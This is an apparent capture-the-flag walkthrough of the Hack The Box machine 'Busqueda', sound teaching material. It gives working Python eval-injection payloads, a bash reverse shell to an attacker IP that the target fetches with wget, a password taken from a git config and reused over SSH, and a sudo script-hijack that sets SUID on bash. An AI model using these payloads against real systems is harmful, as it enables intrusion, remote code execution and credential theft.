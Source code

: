<h2>Target: 10.10.11.208  Busqueda </h2>

<b>Initial Access:</b><br>

Step 1: nmap -Pn --min-rate=5000 10.10.11.208 -p-|grep open|awk -F '/' '{print $1}'|tr '\n' ',' <br>
Nmap returns open ports 22,80

Step 2: Enumerate these open ports further with nmap: nmap -Pn --min-rate=5000 10.10.11.208 -p 22,80 -sC -sV -oN nmap-busqueda

![image](https://user-images.githubusercontent.com/93153300/233803760-57cf0e67-c801-4a14-aea2-6da8eb22ed30.png)  

Step 3: Nmap shows a redirect to http://searcher.htb.  In order to be able to reach the site add into /etc/hosts file the following line:  10.10.11.208 searcher.htb

Step 4: Navigating to searcher.htb shows:

![image](https://user-images.githubusercontent.com/93153300/233803766-f31ae9ae-a16c-4528-9c39-3932842cd7b3.png)

The bottom of the page shows a search bar.  Click on search, capture the request in burp suite, and send the captured request to repeater:

![image](https://user-images.githubusercontent.com/93153300/233803769-adda7d6d-4031-4b77-829e-ebbf859ac952.png)

Step 5: In repeater enter the following python code in the query body parameter: 

query=a'+eval(compile('import os; os.system("ls -al")',"a","single"))+'

Url encode the query body parameter and send the request: a'%2beval(compile('import+os%3b+os.system("ls+-al")',"a","single"))%2b'

![image](https://user-images.githubusercontent.com/93153300/233803771-7f6124b8-9e7a-4aac-9b36-759534c429e3.png)

The response shows that we have remote command execution, as we gave a command of ‘ls -al’ and the response lists the files on the target in the current directory.  We will use this to get a reverse shell.  

Step 6: Create a file called ‘test’ that contains a bash reverse shell:  bash -c "bash -i >& /dev/tcp/10.10.14.106/443 0>&1"

Step 7: Open a python web server in the directory where our ‘test’ file is located: python3 -m http.server 80

Step 8: Upload the ‘test’ file to the target by entering in the query body parameter the following command: wget http://10.10.14.106/test -O /dev/shm/test

Url encode it: a'%2beval(compile('import+os%3b+os.system("wget+http%3a//10.10.14.106/test+-O+/dev/shm/test")',"a","single"))%2b'

Send the request:

![image](https://user-images.githubusercontent.com/93153300/233803778-54edbf3a-5fa6-4158-93ff-d193f7bd18e2.png)

Step 9: Give the /dev/shm/test file execute permission by entering in the query body parameter the following command: chmod 777 /dev/shm/test 

Url encode it, and then send the request:

![image](https://user-images.githubusercontent.com/93153300/233803782-23dcb324-5879-4fef-9a1b-1c1a77ceeac4.png)

Step 10: Open a netcat/pwncat listner to catch the reverse shell: pwncat-cs -lp 443

Step 11: Run the ‘/dev/shm/test’ file by entering in the query body parameter the following command: /dev/shm/test

![image](https://user-images.githubusercontent.com/93153300/233803784-bbc3b7b8-b31e-4c9d-9e17-036bc55ad816.png)
 
Our pwncat caught the request.  We have shell as user svc.  We can get the flag at /home/svc/user.txt.
__________________________________________________
<b>Privilege Escalation:</b><br>

Step 1: Read the file /var/www/app/.git/config:

![image](https://user-images.githubusercontent.com/93153300/233803787-71c456d0-831d-4b1b-aff7-5032fcb93356.png)
 
The file contains credentials (Username ‘cody’ and password ‘jh1usoih2bkjaspwe92’).  Trying the password for user svc works:  ssh svc@searcher.htb → enter the password when prompted.  

Step 2: sudo -l shows: 

![image](https://user-images.githubusercontent.com/93153300/233803795-f0df1453-1ce0-4d81-8764-df482b8f3551.png)

Step 3:  Run the command: sudo /usr/bin/python3 /opt/scripts/system-checkup.py --help:

 ![image](https://user-images.githubusercontent.com/93153300/233803796-af002b2e-d701-4312-9ba4-feb14817c288.png)

This shows the options we can use with the command.  

Step 4: Run the command: sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps

![image](https://user-images.githubusercontent.com/93153300/233803800-f69699b1-2d9b-4b9e-b0bc-9b72f864c1ec.png)

This shows information about the docker containers.

Step 5: Run the command: sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect

This command doesn’t work, and shows a ‘Usage’ message:

![image](https://user-images.githubusercontent.com/93153300/233803807-f827df37-6dbb-4413-bfbf-b653a1e5df59.png)

Google search ‘docker-inspect’.  This search found a site that shows how to use docker-inspect: https://docs.docker.com/engine/reference/commandline/inspect 

![image](https://user-images.githubusercontent.com/93153300/233803812-267558bd-1d25-4ae4-8b7d-cc52cc0d4301.png)

Step 6: Run the command: sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' mysql_db

![image](https://user-images.githubusercontent.com/93153300/233803816-b8b9c7b3-bef3-4a50-9e4f-69211b915758.png)

This dumps sql passwords and other sensitive information.  This seems like a rabbit hole as there is nothing further to do with the information found here.  

Step 7: Sudo -l showed that the command used is in the directory /opt/scripts.  Check what else that directory contains: 

![image](https://user-images.githubusercontent.com/93153300/233803826-8cecf636-95c3-4228-ac3f-1be8786f05e4.png)
  
The file full-checkup.sh seems interesting as that seems to be shown in sudo -l:

![image](https://user-images.githubusercontent.com/93153300/233803834-6f82411a-7d2a-4d57-bdfe-f1aeefea749a.png)

Step 8: Create a file called full-checkup.sh in the directory /home/svc that contains the command ‘chmod 4755 /bin/bash’.  

Step 9: Give executable permissions to the file /home/svc/full-checkup.sh: chmod +x /home/svc/full-checkup.sh.  

Step 10: Run the command: sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

Step 11: Run the command: /bin/bash -p

We have shell as root.  We can get the flag at /root/root.txt.
